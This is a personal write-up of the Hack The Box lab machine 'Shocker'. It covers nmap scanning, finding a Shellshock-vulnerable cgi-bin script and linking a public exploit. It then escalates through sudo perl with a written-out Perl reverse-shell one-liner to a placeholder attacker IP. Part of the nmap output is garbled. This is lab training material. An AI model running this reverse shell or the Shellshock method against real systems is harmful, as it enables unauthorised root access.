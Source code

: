 Below is my write-up on Shocker from HTB. 
At the time of writing, the IP address was 10.10.10.56. Unfortunately, I had lost my write-ups for Shocker & Nibbles. I'm rebuilding them, however it is done after the fact and with way less struggling. So let's get started!

let's hit nmap first.

`└──╼ $nmap -T4 -A -v 10.10.10.56`

>Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
>NSE: Loaded 146 scripts for scanning.
>NSE: Script Pre-scanning.
>Initiating NSE at 07:17
>Completed NSE at 07:17, 0.00s elapsed
>Initiating NSE at 07:17
>Completed NSE at 07:17, 0.00s elapsed
>Initiating Ping Scan at 07:17
>Scanning 10.10.10.56 [2 ports]
>Completed Ping Scan at 07:1qwdsc                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        ion of 1 host. at 07:17
>Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
>Initiating Connect Scan at 07:17
>Scanning 10.10.10.56 [1000 ports]
>Discovered open port 80/tcp on 10.10.10.56
>Discovered open port 2222/tcp on 10.10.10.56
>Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
>Initiating Service scan at 07:18
>Scanning 2 services on 10.10.10.56
>Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
>NSE: Script scanning 10.10.10.56.
>Initiating NSE at 07:18
>Completed NSE at 07:18, 10.10s elapsed
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Nmap scan report for 10.10.10.56
>Host is up (0.42s latency).
>Not shown: 998 closed ports
>PORT     STATE SERVICE VERSION
>80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
>| http-methods: 
>|_  Supported Methods: GET HEAD POST OPTIONS
>|_http-server-header: Apache/2.4.18 (Ubuntu)
>|_http-title: Site doesn't have a title (text/html).
>2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey: 
>|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
>|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
>|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
>
>NSE: Script Post-scanning.
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Initiating NSE at 07:18
>Completed NSE at 07:18, 0.00s elapsed
>Read data files from: /usr/bin/../share/nmap
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds



Hmm ok. Well, we've got web and ssh. Let's hit the website and see what's up!
![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker1.jpg?raw=true)
Nothing too interesting there..source?

> <!DOCTYPE html><html><body>
><h2>Don't Bug Me!</h2><img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
></body></html> 

Ok yeah, still not much to go on here. Let's try to find any other pages on the site. 

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker2.jpg?raw=true)

Hmm...Disappointing. 
Not really much to go on here.

Thinking about the name of the box, I'm guessing shocker had to do with the shellshock vulnerability. However, I am not seeing anything in the cgi-bin folder that is exploitable. I even downloaded a special cgi-bin wordlist. What am I missing?
Ok, I figured it out. Apparently I was looking for only bin, py and didn't do a search for .sh. So I found user.sh in the cgi-bin folder and now we have our way in.
So in terms of the actual exploit, I found this neat python script!

![https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538](https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538)

super simple, it has the reverse shell built in! So I launch that and Aw yis, we got that userrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr!

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker3.jpg?raw=true)


sup' shelly what have you got in store for us?



after minimal enumeration 
`sudo -l`
I found this...

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker4.jpg?raw=true)

Whaaaat, Shelly you shouldn't have. (Really, you shouldn't have!)

So it's just as simple as starting up another netcat listener terminal window and sending this glorious reverse shell: 

`sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker5.jpg?raw=true)

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker6.jpg?raw=true)

My face when I saw that: 


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker7.jpg?raw=true)



So now that this box is all said and done, I did struggle a lot before I realized it was shellshock. I even remember examining the image of the "bug" for steganagrophy. My lesson for this write-up...Make backups of your notes :). Thanks again for reading!
